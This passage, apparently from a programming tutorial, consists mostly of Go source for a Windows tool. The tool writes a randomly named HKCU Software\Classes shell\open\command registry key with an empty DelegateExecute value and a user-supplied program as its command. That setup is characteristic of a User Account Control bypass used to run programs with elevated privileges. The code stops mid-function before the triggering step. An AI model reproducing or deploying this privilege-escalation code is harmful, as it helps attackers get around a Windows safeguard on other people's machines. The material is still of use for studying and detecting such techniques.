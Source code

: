 # Code

And the code would be something like this:

```go
package main

import (
  "os"
  "fmt"
  "log"
  "time"
  "os/exec"
  "syscall"
  "math/rand"
  "golang.org/x/sys/windows/registry"
)

func RandomString(length int) (string) { // Return random string passing an integer (length)
  var seededRand *rand.Rand = rand.New(
  rand.NewSource(time.Now().UnixNano()))
  const charset = "abcdefghijklmnopqrstuvwxyz" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

  b := make([]byte, length)
  for i := range b {
    b[i] = charset[seededRand.Intn(len(charset))]
  }

  return string(b)
}

func main(){
  if len(os.Args) < 2 {
    fmt.Println("[!] Usage:",  os.Args[0])
    os.Exit(0)
  }

  program := os.Args[1]
  fmt.Println("[*] Program to launch:", program)
  fmt.Println("[*] Creating registry key...")

  rand_key_name := RandomString(5)
  fmt.Println("[*] Registry key: Software\\Classes\\" + rand_key_name + "\\shell\\open\\command")

  // Create first key with random value
  k, _, err := registry.CreateKey(registry.CURRENT_USER,
    "Software\\Classes\\" + rand_key_name + "\\shell\\open\\command", registry.ALL_ACCESS,
  )
  if err != nil {
    log.Fatal(err)
  }
  defer k.Close() // Close key
  defer registry.DeleteKey(registry.CURRENT_USER, "Software\\Classes\\" + rand_key_name + "\\shell\\open\\command")

  err = k.SetStringValue("DelegateExecute", "")
  if err != nil {
    log.Fatal(err)
  }

  err = k.SetStringValue("", program)
  if err != nil {
    log.Fatal(err)
```